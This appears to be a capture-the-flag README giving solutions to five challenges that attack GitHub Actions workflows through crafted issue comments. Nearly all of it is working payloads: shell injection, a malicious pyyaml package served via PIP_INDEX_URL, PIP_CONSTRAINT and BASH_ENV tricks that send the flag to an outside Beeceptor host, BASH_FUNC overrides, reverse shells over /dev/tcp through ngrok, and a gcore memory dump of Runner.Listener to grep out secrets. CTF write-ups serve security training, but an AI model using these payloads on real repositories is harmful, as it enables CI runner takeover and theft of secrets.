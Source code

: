 <a id="readme-top"></a>
<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#chall-1">Challenge 1</a>
    </li>
    <li>
      <a href="#chall-2">Challenge 2</a>
      <ul>
        <li><a href="#using-pip_index_url">Using PIP_INDEX_URL</a></li>
        <li><a href="#using-pip_constraint">Using PIP_CONSTRAINT</a></li>
      </ul>
    </li>
    <li>
      <a href="#chall-3">Challenge 3</a>
      <ul>
        <li><a href="#using-bash_env">Using BASH_ENV</a></li>
        <li><a href="#using-bash_func">Using BASH_FUNC</a></li>
      </ul>
    </li>
    <li>
      <a href="#chall-4">Challenge 4</a>
    </li>
    <li>
      <a href="#chall-5">Challenge 5</a>
    </li>
  </ol>
</details>

# Chall 1

Issue Comment:
``` bash
Hello, there!'; echo "Here is your flag: ${FLAG}" | base64 ;echo 'General Kenobi
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>






# Chall 2
### Using PIP_INDEX_URL
> [!NOTE]
> - [PIP environment variables doc](https://pip.pypa.io/en/latest/cli/pip_install/) PIP_<UPPER_LONG_NAME>
> - [Pypi PyYAML](https://pypi.org/project/PyYAML/)
> - [Cloudsmith](https://cloudsmith.io/~nebco/packages/)

_Below is how to setup the library to inject_
1. Install Python
2. Install PIP
```sh
pip install wheel
pip install setuptools
```
4. Create a new directory named pyyaml
5. Create a setup.py
```Python
from setuptools import setup, find_packages

setup(
    name='pyyaml',
    version='6.0.1',
    packages=find_packages(),
    install_requires=[],  # Si tu veux ajouter des dépendances
    entry_points={
        'console_scripts': [
            'yaml = yaml.main:main',  # yaml sera la commande qui déclenchera ton script
        ],
    },
)
```
6. Create a directory named `yaml`
7. Add `__INIT__` file in the directory named yaml and edit:
```Python
import os

print("HELLO TDF")
env_vars = os.environ
for key, value in env_vars.items():
    if key == "flag" or key == "FLAG":
        print("===== FLAG SPLIT =====")
        print(f'Part 1 (0-5): {value[0:5]}')
        print(f'Part 2 (5-100): {value[5:100]}')
```
8. Execute
``` sh
python setup.py bdist bdist_wheel
```

Issue Comment:
``` sh
Not a release :(
PIP_INDEX_URL=https://cloudsmith.io/~nebco/packages/#
```
> [!TIP]
> Alternatives to cloudsmith:
> - Host your own registry (local, AWS or other...)
> - Use github pages
>
> Sometimes indentation doesn't work when commenting an issue. It is therefore preferable to use `Github CLI` directly and push a file. `gh issue comment <id_issue> -F <file_name>`
<p align="right">(<a href="#readme-top">back to top</a>)</p>





### Using PIP_CONSTRAINT
> [!NOTE]
> - [Beeceptor](https://beeceptor.com/)
> - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)

1. Go to BeeCeptor.com
2. add new `Mocking Rules`
``` md
Match value: /<file_name>.txt
Response body: pyyaml@https://tdf123456.free.beeceptor.com/${FLAG}%
```

Issue Comment:
``` bash
Not a release :(
PIP_CONSTRAINT=https://tdf123456.free.beeceptor.com/constraint.txt
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 3
### Using BASH_ENV
> [!NOTE]
> - [Bash variables doc](https://www.gnu.org/software/bash/manual/html_node/Bash-Variables.html)
> - [Beeceptor](https://beeceptor.com/)
> - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)

Body Issue Comment:
``` bash
Let me do something with this env :)
BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base64))
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





### Using BASH_FUNC
Body Issue Comment:
``` bash
Let me do something with this env :)
# BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
BASH_FUNC_echo%%=() { builtin echo "$FLAG $@" | base64 ;}
```
 <p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 4
1. Open a terminal for setup (client side)
2. Listen with NC
``` bash
nc -lv 4444
```
3. setup ngrok (new terminal)
``` bash
ngrok tcp 4444
```
4. Get ngrok IP to build payload (new terminal)
``` bash
dig <NGROK_DNS>
```

Body Issue Comment:
``` bash
Where is my bash ??
$(bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1)
```
5. Investigate in the runner 
The directory `/home/runner/work/_temp` look interesting...


> [!TIP]
> Fancy shell for lazy DevOps :)
> ``` bash
> curl -sSf https://sshx.io/get | sh -s run
> ```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 5
1. Open a terminal for setup (client side)
2. Listen with NC
``` bash
nc -lv 4444
```
3. setup ngrok (new terminal)
``` bash
ngrok tcp 4444
```
4. Get ngrok IP to build payload (new terminal)
``` bash
dig <NGROK_DNS>
```
Body Issue Comment:
``` bash
Where is my bash ??
; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1
```
5. Dump `Runner.Listener` process memory and check those secrets
``` bash
sudo apt-get install -y gdb; sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{print $1}')"; grep -Eao '"[^"]+":\{"value":"[^"]*","isSecret":true\}' k.dump*
```

> [!TIP]
> Fancy shell for lazy DevOps :)
> ``` bash
> curl -sSf https://sshx.io/get | sh -s run
> ```
<p align="right">(<a href="#readme-top">back to top</a>)</p>
 
